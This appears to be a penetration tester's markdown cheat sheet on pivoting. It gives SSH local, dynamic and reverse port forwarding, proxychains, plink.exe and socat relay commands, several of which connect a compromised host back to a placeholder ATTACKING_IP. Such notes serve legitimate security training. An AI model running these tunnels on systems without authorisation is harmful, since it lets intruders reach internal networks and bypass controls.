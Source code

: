 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## Proxychains

Works by prepending the command `proxychains` before other commands.

Proxychains configuration file: `/etc/proxychains.conf` (but proxychains will look into working direcotry first)

```bash
cp /etc/proxychains.conf .
```

## SSH Tunnelling / Port Forwarding

### Forward (local) Connections

Created from our attacking machine, when we have SSH access to the target.

Local port forwarding:
```bash
ssh -L LOCAL_LPORT:TARGET_RHOST:TARGET_RPORT USER@TARGET_RHOST -fN
```

Dynamic proxy:
```bash
ssh -D LOCAL_LPORT USER@TARGET_RHOST -fN
```

## Reverse Connections

When we have shell, but not a SSH access.

First we need to generate ssh key:
```bash
ssh-keygen
```

Add this line into `authorized_keys`, then your generated key:
```bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty YOUR_KEY
```

Check is the SSH server is running on your machine:
```bash
sudo systemctl status ssh
sudo systemctl start ssh
```

Then connect back with reverse port forward:
```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

Or create reverse proxy:
```bash
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

Closing SSH connections:
```bash
ps aux | grep ssh
sudo kill PID
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```

